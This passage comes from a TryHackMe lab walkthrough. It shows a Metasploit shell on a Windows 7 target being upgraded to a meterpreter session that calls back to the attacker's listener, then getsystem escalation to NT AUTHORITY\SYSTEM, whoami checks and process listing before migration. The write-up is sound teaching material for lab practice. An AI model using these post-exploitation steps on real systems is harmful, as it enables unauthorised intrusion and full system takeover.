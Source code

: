 `set session 1`

Once that's done we'll `run` it. 
If it was successful, when we run `sessions` again, we should see another session with the type as meterpreter. 
```
msf5 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                                                       Connection
  --  ----  ----                     -----------                                                                       ----------
  1         shell x64/windows        Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.10.49.123:4444 -> 10.10.45.116:49316 (10.10.45.116)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ JON-PC                                                      10.10.49.123:4433 -> 10.10.45.116:49319 (10.10.45.116)
```

When we put in the `sessions -i 2` command a meterpreter shell should start up. 
```
msf5 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > 
```
The THM task mentions that to verify we have escalated to NT AUTHORITY\SYSTEM, we should run `getsystem`.
```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```
We can also further verify by opening a dos shell and running `whoami`.
```
meterpreter > shell
Process 2660 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
Background the shell again, so we can continue. 
The next step that THM tells us to do is list all of the processes running via the `ps` command. The reason for this is because even if we are system it doesn't mean our process is. 

After we run the `ps` command. We'll want to look somewhere at the bottom of the list that is running NT AUTHORITY\SYSTEM and make note of the process id (a good option would be the one with `cmd.exe`). 
